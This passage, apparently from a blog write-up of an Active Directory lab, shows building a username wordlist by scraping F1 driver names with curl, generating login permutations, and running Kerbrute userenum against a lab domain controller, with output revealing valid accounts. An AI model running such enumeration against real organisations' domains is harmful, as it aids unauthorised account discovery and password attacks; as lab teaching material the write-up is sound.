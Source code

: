 Fia stands for "Fédération Internationale de l'Automobile". From an attacker's point of view, if we are attacking something to do with motorsport, we'd rather get a good wordlist of drivers.

![](https://shroudri.github.io/assets/images/asreproast/5gettingdrivers.png)

I've found a website from which we can parse the names of all drivers. 

[](https://shroudri.github.io/assets/images/asreproast/6parsingdrivers.png)

> curl -s https://www.skysports.com/f1/standings | grep -i data-long-name | awk -F "=" '{print $2}' | tr -d \\"

![](https://shroudri.github.io/assets/images/asreproast/7driverlist.png)

This gives us a list with all the drivers involved in this year's F1 championship. Now we need to generate usernames based on this list. I wrote a simple python script for that called [username_generator](https://github.com/shroudri/username_generator). You can download it and use it to generate a potential list of usernames. It covers the most typical combinations used in enterprises, and you can even set it to generate uppercase permutations. It's worth having a look at it!

![](https://shroudri.github.io/assets/images/asreproast/8generateusernames.png)

Nice! That's a good list to use. Other ways to get potential usernames include:
- Using RPC service if enabled (there's a tool called RPCclient for that)
- Getting a list of names+surnames from "About Us" sections on websites. 
- Sometimes, users can be extracted from the metadata of images and documents
- There are many other ways to get a userlist. Be creative!
        
Let' move on!
<br/>

###### Using Kerbrute to find the actual login usernames
As I said before, we will be using [Kerbrute](https://github.com/ropnop/kerbrute) userenum option. This allows us to check for valid usernames from a wordlist. Let's use the wordlist we've just generated!

![](https://shroudri.github.io/assets/images/asreproast/9validusernames.png)

Kerbrute is showing us that 2 usernames are valid and actually exist on the domain:
```
╰─ ./kerbrute userenum ~/ctf/fia/usernames -d fia.local --dc 192.168.0.26

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/11/21 - Ronnie Flathers @ropnop

2021/12/11 23:16:42 >  Using KDC(s):
2021/12/11 23:16:42 >   192.168.0.26:88

2021/12/11 23:16:42 >  [+] VALID USERNAME:       m.verstappen@fia.local
2021/12/11 23:16:42 >  [+] VALID USERNAME:       l.hamilton@fia.local
2021/12/11 23:16:42 >  Done! Tested 168 usernames (2 valid) in 0.025 seconds

```

